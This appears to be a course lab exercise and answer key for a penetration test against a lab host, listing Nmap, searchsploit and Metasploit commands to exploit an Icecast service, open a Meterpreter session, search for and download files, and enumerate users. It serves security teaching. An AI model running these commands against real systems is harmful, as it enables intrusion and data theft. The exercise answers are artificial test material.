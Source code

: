## Activity: Penetration Test Engagement (Updated)

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap -sV 192.168.0.20`
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: `search icecast`
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use 0`
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `set RHOST 192.168.0.20`
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `run`
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secretfile*.txt`
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `search -f *recipe*.txt`
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: `download 'c:\Users\IEuser\Documents\Drinks.recipe.txt'`
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 `run post/multi/recon/local_exploit_suggester`
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: `run post/windows/gather/enum_logged_on_users`
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: `shell` 
 
C. Run the command that displays the target's computer system information:

   > Answer: `systeminfo`
